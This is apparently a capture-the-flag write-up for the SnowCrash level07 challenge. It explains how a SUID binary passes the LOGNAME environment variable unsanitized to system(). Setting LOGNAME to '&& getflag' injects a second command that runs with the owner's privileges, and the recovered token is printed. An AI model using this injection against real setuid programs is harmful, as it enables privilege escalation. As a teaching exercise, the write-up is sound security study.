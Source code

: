 # Level07: Command Injection via Environment Variable

## Overview

In this level, we encountered a SUID binary (`level07`) owned by `flag07` that was vulnerable to command injection through environment variables.

## Analysis

### Initial Examination

When we first check the binary:

```console
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

The binary has the SUID bit set (note the 's' in the permissions), meaning it runs with the privileges of its owner (`flag07`).

When executed, the binary simply outputs "level07":

```console
level07@SnowCrash:~$ ./level07
level07
```

### Binary Analysis

Analysis using a decompiler like Ghidra, which attempts to reconstruct C-like source code from the compiled binary, reveals the core vulnerable logic:

```c
  // Ghidra decompiled snippet (variable names may differ slightly)
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
```

This code explicitly shows that the program:

1. Retrieves the `LOGNAME` environment variable using `getenv`.
2. Formats this value into a command string `/bin/echo %s ` using `asprintf`.
3. Executes the resulting command string using `system()`.

The vulnerability lies in directly incorporating the unsanitized `LOGNAME` value into the command string passed to `system()`.

## Exploitation

The vulnerability can be exploited by modifying the `LOGNAME` environment variable to include shell commands:

```console
level07@SnowCrash:~$ export LOGNAME="&& getflag"
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

### How it works:

1. We set `LOGNAME` to `"&& getflag"`
2. When the program runs `system("/bin/echo %s", getenv("LOGNAME"))`, it effectively executes:
   ```
   system("/bin/echo && getflag")
   ```
3. In shell syntax, the `&&` operator executes the second command if the first one succeeds
4. `/bin/echo` with no arguments simply prints a newline and exits successfully
5. Then `getflag` runs with the privileges of `flag07`, giving us the token

## Security Lesson

This level demonstrates the danger of passing unsanitized user input or environment variables to functions like `system()`. Always validate and sanitize any input that could affect command execution.

## Token

```
fiumuikeil55xe9cu4dood66h
```
